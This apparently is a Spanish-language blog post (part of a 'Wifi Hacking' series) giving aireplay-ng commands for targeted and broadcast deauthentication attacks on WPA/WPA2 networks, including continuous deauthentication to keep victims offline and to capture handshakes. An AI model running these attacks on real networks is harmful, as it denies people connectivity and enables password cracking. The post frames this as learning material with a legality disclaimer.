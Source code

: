 ```yaml
---
layout: single
title: Wifi Hacking 3, Ataques
excerpt: "En este articulo veremos unos cuantos ataques para las redes WPA y WPA 2, los cuales podremos lanzar con distintas finalidades."
date: 2022-07-05
classes: wide
header:
  teaser: 
  teaser_home_page: true
  icon: /assets/images/Wifi-Hacking/wifi.webp
categories:
  - Wifi-Hacking
tags:  
  - Wifi-Hacking
---
```


Vale, una vez visto lo anterior ya nos podemos poner manos a la obra con una parte bastante atractiva de esto, los ataques, aquí veremos ataques de varios tipos y como los podemos utilizar con distintos fines, pero antes de nada `YO NO ME HAGO RESPONSABLE DEL MAL USO QUE SE LE PUEDAN DAR A ESTOS CONOCIMIENTOS`, ya que como todo esto se puede usar para el bien, pero también se puede utilizar para el mal y creo que no hace falta aclarar que `Cualquier ataque de estos en una red en la que no tengamos permiso de efectuarlos es completamente ILEGAL`. Una vez aclarado esto ya nos podemos poner manos a la obra. uwu

![](/assets/images/Wifi-Hacking/wifi-hacking.jpg)

`(antes de nada hay que aclarar que todos estos ataques, capturar paquetes y todo eso... se puede hacer sin estar conectados a la red que queremos atacar, es decir que no necesitamos saber la contraseña, solo necesitaremos saberla para snifar la red, ya que la información viaja encriptada y sin la contraseña no podremos verla en texto claro)`

## ATAQUE DE DEAUTENTICACIÓN DIRIGIDO

Con este ataque basicamente `vamos a desconectar a un usuario` de la red que queramos. Si vemos que `los frames estan aumentando, significa que el usuario esta activo` y por lo tanto se va a `reconectar` y ahi podrmemos capturar el `handshake`. Claro, tambien podemos querer que el usuario `no se pueda conectar` entonces podemos desconectarlo continuamente.

```
#Deautenticar / Desconectar a un usuario una vez
> airplay -0 {paquetes que quieres emitirle (por ejemplo 10)} -e {nombre de la red} -c {MAC del cliente} {tarjeta de red en modo monitor}

#Otra forma de hacerlo
> aireplay --deauth 2000 -a {bssid de la red} -c {MAC victima} {tarjeta de red} (esta es 	otra opcion de hacerlo)


# IMPORTANTE: si queremos que ese cliente no se pueda conectar, en el numero de paquetes ponemos 0 y se estaran mandando paquetes de deautenticación uno tras otro hasta que tu hagas Control+C o cierres la consola.
```

Ejemplo:

![](/assets/images/Wifi-Hacking/Deauth-dirigido.PNG)


## ATAQUE DE DEAUTENTICACIÓN GLOBAL

Esto es lo mismo que el anterior pero para desconectar a todos los clientes, de esta forma `es mas probable conseguir uno o varios handshakes`. O tambien se puede utilizar para otros fines.

Para esto reemplazaremos la MAC del cliente victima por la `broadcast MAC: FF:FF:FF:FF:FF:FF` y asi seleccionaremos `todos los clientes` para desconectarlos. Aunque aireplay-ng tiene una facilidad con la cual si no ponemos ninguna MAC, por defecto seleccionara todos los usuarios.

```
#Forma 1
> aireplay-ng -0 10 -e {nombre de la red} -c FF:FF:FF:FF:FF:FF {nombre de la tarjeta de red}

#Forma 2 (la que facilita aireplay)
> aireplay-ng -0 10 -e {nombre de la red} {tarjeta de red}

# IMPORTANTE: aqui tambien podemos hacer que no se puedan reconectar
```






